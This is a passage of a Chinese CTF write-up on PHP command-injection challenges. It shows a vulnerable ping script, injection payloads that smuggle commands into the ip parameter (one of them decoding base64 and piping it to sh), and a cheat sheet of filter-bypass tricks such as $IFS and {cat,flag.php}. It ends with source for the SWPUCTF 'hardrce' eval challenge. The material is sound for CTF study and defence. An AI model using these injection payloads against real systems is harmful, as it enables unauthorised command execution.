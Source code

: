 ```php
	$a = shell_exec("ping -c 4 ".$ip);
	echo "<pre>";
	print_r($a);
}
?>
```
Payload：
```TEXT
1、?ip=127.0.0.1;cat$IFS$9`ls`
2、?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
3、?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

### 关键词绕过小结
```TEXT
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1           //$1改成$加其他数字貌似都行
IFS
<
<> 
{cat,flag.php}   //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```
### 内联执行绕过（就是将反引号内命令的输出作为输入执行）
```TEXT
?ip=127.0.0.1;cat$IFS$9`ls`

$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字
这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
```

## [SWPUCTF 2021 新生赛]hardrce
- 题目源码
```php
<?php  
header("Content-Type:text/html;charset=utf-8");  
error_reporting(0);  
highlight_file(__FILE__);  
if(isset($_GET['wllm']))  
{    
	$wllm = $_GET['wllm'];
	$blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];  
    foreach ($blacklist as $blackitem)  
    {  
        if (preg_match('/' . $blackitem . '/m', $wllm)) {  
        die("LTLT说不能用这些奇奇怪怪的符号哦！");  
    	}
    }  
	if(preg_match('/[a-zA-Z]/is',$wllm))  
	{  
    	die("Ra's Al Ghul说不能用字母哦！");  
	}  
	echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";  
	eval($wllm);  
}  
else  
```